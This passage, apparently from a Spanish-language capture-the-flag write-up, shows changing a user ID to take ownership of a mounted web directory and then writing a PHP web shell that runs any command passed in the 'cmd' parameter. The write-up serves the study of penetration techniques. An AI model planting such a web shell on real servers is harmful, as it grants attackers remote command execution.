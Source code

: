 ```bash
sudo usermod -u  2017  pepito
```
{: .nolineno}


Y al revisar de nuevo, se puede ver que el nuevo dueño de la carpeta es **pepito**.


```bash
ls -all
drwxr-xr-- pepito www-data 4.0 KB Thu Jan 11 21:40:01 2024  html
drwxr-xr-x 1001   pepito   4.0 KB Thu Jan 11 18:15:47 2024  ross
```
{: .nolineno}


Al revisar, se pueden ver los mismos directorios que fueron enumerados por **gobuster**, por lo que se piensa que se trata de la carpeta donde se encuentra alojada la web.


```bash
ls
css  images  index.html  js
```
{: .nolineno}

Dado que se cuentan con permisos de **escritura**, es posible crear un archivo en **PHP** que permita tener una **web shell** dentro de la web. Esta web shell posibilita la **ejecución remota de comandos**.


```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```
{: .nolineno}


```bash
ls
css  images  index.html  js  web.php
```
{: .nolineno}

